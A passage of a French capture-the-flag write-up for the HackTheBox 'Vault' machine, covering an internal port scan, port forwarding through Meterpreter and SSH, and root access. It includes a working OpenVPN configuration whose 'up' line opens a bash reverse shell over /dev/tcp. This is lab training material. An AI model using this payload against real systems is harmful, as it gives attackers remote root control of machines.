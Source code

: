 Tout comme j'ai pu le faire avec [Reddish](http://devloop.users.sourceforge.net/index.php?article189/solution-du-ctf-reddish-de-hackthebox) j'uploade ici un *nmap* avec le fichier *nmap-services* et je scanne les ports du réseau 192.168.122.0/24.  

```plain
Nmap scan report for 192.168.122.4
Host is up (0.012s latency).
Not shown: 65197 closed ports, 336 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

OpenVPN Sesame
--------------

A ce stade, ayant une session *Meterpreter* sur la machine j'ai port-forwardé le port 80 de DNS avec la commande *portfwd add -l 80 -p 80 -r 192.168.122.4*.  

Bien sûr on peut tout aussi bien utiliser OpenSSH dans notre cas (*ssh -L 80:192.168.122.4:80 dave@10.10.10.109*).  

Le site dispose de deux liens, l'un pour modifier la configuration DNS et l'autre pour tester une configuration OpenVPN :  

![Vault HackTheBox CTF OpenVPN Configurator RCE](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/vault_openvpn.png)

Il nous faut seulement trouver un moyen d’appeler une commande depuis une configuration *OpenVPN*, [ce qui n'est pas compliqué](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da).  

La page indique de spécifier l'option nobind dans les options de configuration, je suppose que c'est juste un choix de l'auteur de la box pour que celle-ci reste stable.  

J'ai rentré la configuration suivante :  

```plain
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9999 0<&1 2>&1&'"
nobind
```

On obtient alors un reverse shell root sur DNS (on aura préalablement mis un port en écoute sur la première machine) et l'accès à notre premier flag :  

```plain
root@DNS:/home/dave# cat user
a4947fa --- snip --- bd88c73
```

On trouve différents fichiers intéressants sur le système :  

```plain
/var/www/:
total 16K
drwxr-xr-x  4 root root 4.0K Jul 17  2018 .
drwxr-xr-x 14 root root 4.0K Jul 17  2018 ..
drwxrwxr-x  3 root root 4.0K Jul 17  2018 DNS
drwxrwxr-x  2 root root 4.0K Jul 17  2018 html

/var/www/DNS:
total 20K
drwxrwxr-x 3 root root 4.0K Jul 17  2018 .
drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
drwxrwxr-x 2 root root 4.0K Jul 17  2018 desktop
-rw-rw-r-- 1 root root  214 Jul 17  2018 interfaces
-rw-rw-r-- 1 root root   27 Jul 17  2018 visudo
```